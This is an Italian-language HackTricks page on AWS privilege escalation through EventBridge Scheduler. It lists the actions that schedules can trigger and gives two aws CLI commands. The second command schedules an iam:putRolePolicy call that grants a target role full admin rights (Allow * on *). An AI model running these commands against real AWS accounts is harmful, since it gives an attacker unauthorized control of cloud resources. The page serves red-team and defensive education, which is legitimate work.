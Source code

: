 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler può essere utilizzato per l'escalation dei privilegi programmando chiamate a vari servizi AWS. Sfruttando la sua capacità di invocare servizi su base programmata, gli utenti con permessi sufficienti possono elevare i privilegi. Ecco alcune delle azioni chiave che EventBridge Scheduler può attivare utilizzando obiettivi predefiniti:

- Lambda: lambda:InvokeFunction - Invoca funzioni Lambda su un programma.
- CodeBuild: codebuild:StartBuild - Avvia progetti AWS CodeBuild.
- CodePipeline: codepipeline:StartPipelineExecution - Attiva esecuzioni di AWS CodePipeline.
- ECS: ecs:RunTask - Esegui attività ECS.
- EventBridge: events:PutEvents - Inserisci eventi in EventBridge.
- Inspector: inspector:StartAssessmentRun - Avvia valutazioni di Amazon Inspector.
- Kinesis: kinesis:PutRecord - Inserisci record nei flussi Kinesis.
- Firehose: firehose:PutRecord - Inserisci record nei flussi di consegna Firehose.
- SageMaker: sagemaker:StartPipelineExecution - Avvia esecuzioni di pipeline SageMaker.
- SNS: sns:Publish - Pubblica messaggi nei temi SNS.
- SQS: sqs:SendMessage - Invia messaggi alle code SQS.
- Step Functions: states:StartExecution - Avvia esecuzioni di AWS Step Functions.

Queste sono solo alcune delle azioni predefinite che EventBridge Scheduler può eseguire. Tuttavia, utilizzando obiettivi universali, molte altre azioni attraverso i servizi AWS possono essere invocate. Gli obiettivi universali consentono operazioni API più ampie oltre l'elenco predefinito.

Ulteriori informazioni su EventBridge Scheduler in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Gli utenti con permessi `sts:AssumeRole`, `iam:PassRole` e `scheduler:CreateSchedule o scheduler:UpdateSchedule` possono elevare i privilegi sfruttando EventBridge Scheduler per invocare servizi utilizzando un ruolo con privilegi superiori.

Con questi permessi, un attaccante può assumere un ruolo con privilegi elevati e passare quel ruolo a EventBridge Scheduler quando crea o aggiorna un programma. Il programma può essere configurato per eseguire qualsiasi delle azioni elencate in precedenza, come invocare funzioni Lambda, avviare attività ECS, attivare esecuzioni di CodePipeline o qualsiasi operazione dei 270 servizi AWS supportati da EventBridge Scheduler. Programmando queste azioni, un attaccante potrebbe abusare di privilegi superiori per eseguire operazioni non autorizzate attraverso i servizi AWS.
\\

Ad esempio, potrebbero configurare il programma per invocare una funzione Lambda che è un'azione predefinita:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
In aggiunta alle azioni di servizio templated, puoi utilizzare obiettivi universali in EventBridge Scheduler per invocare una vasta gamma di operazioni API per molti servizi AWS. Gli obiettivi universali offrono flessibilità per invocare quasi qualsiasi API. Un esempio può essere l'uso di obiettivi universali aggiungendo "AdminAccessPolicy", utilizzando un ruolo che ha la policy "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Riferimenti

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
